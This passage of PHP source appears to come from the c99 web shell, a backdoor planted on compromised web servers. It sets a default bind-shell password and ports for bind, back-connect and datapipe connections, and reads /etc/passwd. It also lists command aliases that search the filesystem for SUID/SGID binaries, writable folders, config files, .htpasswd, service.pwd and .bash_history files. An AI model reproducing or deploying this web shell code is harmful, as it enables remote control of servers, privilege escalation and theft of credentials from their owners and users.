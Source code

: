  "exe"=&gt;array("sh","install","bat","cmd"), 
 "ini"=&gt;array("ini","inf"), 
 "code"=&gt;array("php","phtml","php3","php4","inc","tcl","h","c","cpp","py","cgi","pl"), 
 "img"=&gt;array("gif","png","jpeg","jfif","jpg","jpe","bmp","ico","tif","tiff","avi","mpg","mpeg"), 
 "sdb"=&gt;array("sdb"), 
 "phpsess"=&gt;array("sess"), 
 "download"=&gt;array("exe","com","pif","src","lnk","zip","rar","gz","tar") 
); 
// Registered executable file-types. 
//  array( 
//   string "command{i}"=&gt;array("ext1","ext2","ext3",...), 
//   ... 
//  ) 
//   {command}: %f% = filename 
$exeftypes  = array( 
 getenv("PHPRC")." -q %f%" =&gt; array("php","php3","php4"), 
 "perl %f%" =&gt; array("pl","cgi") 
); 
/* Highlighted files. 
  array( 
   i=&gt;array({regexp},{type},{opentag},{closetag},{break}) 
   ... 
  ) 
  string {regexp} - regular exp. 
  int {type}: 
0 - files and folders (as default), 
1 - files only, 2 - folders only 
  string {opentag} - open html-tag, e.g. "&lt;b&gt;" (default) 
  string {closetag} - close html-tag, e.g. "&lt;/b&gt;" (default) 
  bool {break} - if TRUE and found match then break 
*/ 
$regxp_highlight  = array( 
  array(basename($_SERVER["PHP_SELF"]),1,"&lt;font color=\"yellow\"&gt;","&lt;/font&gt;"), // example 
  array("config.php",1) // example 
); 
$safemode_diskettes = array("a"); // This variable for disabling diskett-errors. 
 // array (i=&gt;{letter} ...); string {letter} - letter of a drive 
//$safemode_diskettes = range("a","z"); 
$hexdump_lines = 8;// lines in hex preview file 
$hexdump_rows = 24;// 16, 24 or 32 bytes in one line 
$nixpwdperpage = 100; // Get first N lines from /etc/passwd 
$bindport_pass = "c99";  // default password for binding 
$bindport_port = "31373"; // default port for binding 
$bc_port = "31373"; // default port for back-connect 
$datapipe_localport = "8081"; // default port for datapipe 
// Command-aliases 
if (!$win) 
{ 
 $cmdaliases = array( 
  array("-----------------------------------------------------------", "ls -la"), 
  array("find all suid files", "find / -type f -perm -04000 -ls"), 
  array("find suid files in current dir", "find . -type f -perm -04000 -ls"), 
  array("find all sgid files", "find / -type f -perm -02000 -ls"), 
  array("find sgid files in current dir", "find . -type f -perm -02000 -ls"), 
  array("find config.inc.php files", "find / -type f -name config.inc.php"), 
  array("find config* files", "find / -type f -name \"config*\""), 
  array("find config* files in current dir", "find . -type f -name \"config*\""), 
  array("find all writable folders and files", "find / -perm -2 -ls"), 
  array("find all writable folders and files in current dir", "find . -perm -2 -ls"), 
  array("find all service.pwd files", "find / -type f -name service.pwd"), 
  array("find service.pwd files in current dir", "find . -type f -name service.pwd"), 
  array("find all .htpasswd files", "find / -type f -name .htpasswd"), 
  array("find .htpasswd files in current dir", "find . -type f -name .htpasswd"), 
  array("find all .bash_history files", "find / -type f -name .bash_history"), 
